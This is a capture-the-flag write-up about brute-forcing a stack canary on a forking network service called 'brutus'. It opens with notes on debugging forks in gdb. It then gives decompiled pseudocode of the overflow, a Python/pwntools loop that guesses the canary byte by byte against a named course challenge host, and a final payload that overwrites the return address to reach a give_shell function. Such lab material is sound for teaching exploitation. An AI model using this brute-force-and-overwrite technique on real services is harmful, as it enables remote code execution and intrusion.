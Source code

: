 # canary\_brute\_force

## Debug fork in gdb

Debugging in this program is a little tricky, because parent process will recv message, and fork new process to process the message

{% embed url="https://sourceware.org/gdb/onlinedocs/gdb/Inferiors-and-Programs.html\#Inferiors-and-Programs" %}

{% embed url="http://sourceware.org/gdb/onlinedocs/gdb/Forks.html" %}

Inferiors in gdb is kinda like session or tab in vim. 

`info inferior` to list inferiors

`inferior 1` to go to process 

* two mode related: `detach-on-fork` and `follow-fork-mode`

if detach-on-fork is on\(default\), gdb follow child or parent according to follow-fork-mode, and drop the control of the other process.

if detach-on-fork is off, gdb takes one process\(according to follow-fork-mode\) to front end, and **hangs** the other process in other inferior at the point of fork.

 

> If you ask to debug a child process and a `vfork` is followed by an `exec`, GDB executes the new target up to the first breakpoint in the new target. If you have a breakpoint set on `main` in your original program, the breakpoint will also be set on the child process’s `main`.



### brutus

this is a simple example: parent call child to handle message after accept a socket

![](../.gitbook/assets/image%20%287%29.png)

![](../.gitbook/assets/image%20%282%29.png)

the only param `handle` needs is the fd of socket

```c
send(socket_fd, str.Hello, 0x29, 0) //0x29 means how many bytes to send
send(socket_fd, str.how_long, 0x1f, 0) //0 is just a flag not mattering
recv(socket_fd, ebp-0x90, 127, 0) //recv 127 bytes, stores it to eip-0x90
how_long_int = atoi(ebp-0x90)
memset(ebp-0x90, 0, 0x80) //0 is a flag, 0x80 is 128 bytes, ebp-0x90 used again
dprintf(socket_fd, str.give_me, how_long_int)
recv(socket_fd, ebp-0x90, how_long_int, 0 //write to memory cleaned by memset
```

at first, I thought how\_long\_int will be used to set how many bytes room will be set by memset. But actually the bytes set by memset is fixed, 

canary is at rbp-0x8, memory to write is rbp-0x90, 0x90-0x8 = 0x88

should take notice that len\('B'.rjust\(89,'A'\)\) == 89

When the handle child process return normally, it will send back "and goodbye". But when stack smashed, it won't. 

![](../.gitbook/assets/image%20%284%29.png)



use script below to brute for the canary of remote process



```python
for test_byte in range(0xff+1):  #0xff will not be test if not +1

    if REMOTE:
        sh = remote('offsec-chalbroker.osiris.cyber.nyu.edu',1340)
        sh.recv(1024)
        sh.send('cx578\n')
    else:
        sh = remote('127.0.0.1',8000)
    sh.recv(1024)
    sh.send(str(0x90))
    sh.recv(1024)

    test_answer = answer + chr(test_byte)
    print(binascii.hexlify(test_answer))
    payload = test_answer.rjust(0x88 + len(test_answer), 'A')
    sh.send(payload)
    response = sh.recvall()
    print(response)

    if 'goodbye' in response:
        return test_answer

```

and there's a give\_shell function, by using 

`payload = binascii.unhexlify('001a46c8500c09cf').rjust(0x90, 'A') + 'A'*8 + p64(0x00400afd)`

and sent it, easily got a shell.

